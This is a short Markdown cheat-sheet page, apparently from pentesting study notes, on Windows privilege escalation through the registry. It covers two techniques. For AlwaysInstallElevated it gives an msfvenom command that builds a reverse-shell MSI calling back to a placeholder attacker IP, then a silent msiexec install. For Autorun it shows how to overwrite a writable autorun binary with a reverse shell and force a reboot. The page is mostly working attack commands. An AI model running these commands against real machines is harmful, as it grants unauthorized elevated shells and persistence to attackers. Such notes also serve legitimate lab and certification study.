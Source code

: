 ```yaml
---
title: Registry
parent: Method (Windows)
layout: default
nav_order: 2
---
```


## AlwaysInstallElevated
1. `winpeas.exe quiet windowscreds` - first check
2. Alternatively check these 2:\
   `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
   `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
3. msfvenom to generate MSI:\
   `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi -o reverse.msi`
4. Start listener, then run with this: `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

## Autorun
1. `winpeas.exe quiet applicationsinfo` - first check
2. Alternatively: use `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` and then check one by one `accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
3. Backup the file: `copy "C:\Program Files\Autorun Program\program.exe" C:\Temp`
4. Copy shell: `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"`
5. Start listener. Restart with `shutdown /r /t 0`. If cannot try RDP it (should autorun the shell without needing to authenticate).